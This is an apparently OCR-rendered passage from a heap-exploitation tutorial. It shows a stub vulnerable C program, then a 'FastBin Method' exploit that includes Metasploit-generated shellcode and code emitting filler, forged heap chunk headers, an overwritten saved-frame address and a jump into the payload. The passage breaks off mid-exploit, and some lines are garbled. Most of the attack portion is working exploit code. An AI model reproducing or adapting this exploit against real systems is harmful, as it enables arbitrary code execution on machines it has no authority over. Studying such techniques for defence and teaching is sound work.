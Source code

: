 [-----]

  int fvuln()
  {
       // Make something stupid here.
  }

   int main( int argc, char *argv[] )
   {
       int i, n, ret;
       char *s, buf[128];
       struct AP_info *ap_cur;

       fvuln();
   ...

[-----]

The next code exploit the vulnerability:

[-----]

/*
 * FastBin Method - exploit
 */

#include <stdio.h>

/* linux_ia32_exec -  CMD=/usr/bin/id Size=72 Encoder=PexFnstenvSub 
http://metasploit.com */
unsigned char scode[] =
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

int main (void) {

        int i, j;

        for (i = 0; i < 1028; i++)                            /* FILLER  */
                putchar(0x41);

        for (i = 0; i < 518; i++) {
                fwrite("\x09\x04\x00\x00", 4, 1, stdout);
                for (j = 0; j < 1028; j++)
                        putchar(0x41);
        }
        fwrite("\x09\x04\x00\x00", 4, 1, stdout);

        for (i = 0; i < (1024 / 4); i++)
                fwrite("\x34\xf4\xff\xbf", 4, 1, stdout);    /*  EBP - 4 */

        fwrite("\xeb\x16\x90\x90", 4, 1, stdout);            /* JMP 0x16 */

        fwrite("\x15\x00\x00\x00", 4, 1, stdout);  /* 16 + N_M_A + P_INU */
        
        fwrite("\x90\x90\x90\x90" \
               "\x90\x90\x90\x90" \
               "\x90\x90\x90\x90" \
               "\x09\x00\x00\x00" \                   /* nextchunk->size */
               "\x90\x90\x90\x90", 20, 1, stdout);
                       